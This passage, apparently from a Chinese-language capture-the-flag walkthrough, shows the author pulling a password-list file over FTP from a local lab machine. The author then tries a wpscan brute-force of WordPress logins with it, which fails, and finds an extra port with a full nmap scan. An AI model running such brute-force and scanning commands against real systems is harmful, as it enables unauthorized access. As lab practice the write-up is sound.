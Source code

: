 get下来读一下

```shell
ftp> get backupPasswords
local: backupPasswords remote: backupPasswords
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backupPasswords (325 bytes).
226 Transfer complete.
325 bytes received in 0.00 secs (112.7470 kB/s)
ftp> exit
221 Goodbye.
root@kali:~# cat backupPasswords 
Hi Doe, 

I'm guessing you forgot your password again! I've added a bunch of passwords below along with your password so we don't get hacked by those elites again!

*$eGRIf7v38s&p7
yP$*SV09YOrx7mY
GmceC&oOBtbnFCH
3!IZguT2piU8X$c
P&s%F1D4#KDBSeS
$EPid%J2L9LufO5
nD!mb*aHON&76&G
$*Ke7q2ko3tqoZo
SCb$I^gDDqE34fA
Ae%tM0XIWUMsCLp
```

相当于拿到了一个字典

之前wpscan的时候拿到了user列表

试试用这个字典能不能破解

```shell
wpscan --url http://192.168.31.166 -U users.txt -P backupPasswords
```

很遗憾没有成功.....

接下来怎么办.....

看了一下大佬写的WalkThrough发现

前面居然漏扫了一个端口

加个-p-参数才能扫出来...

```shell
nmap -p- -A 192.168.31.166
...
65535/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

估计是因为端口号太大了
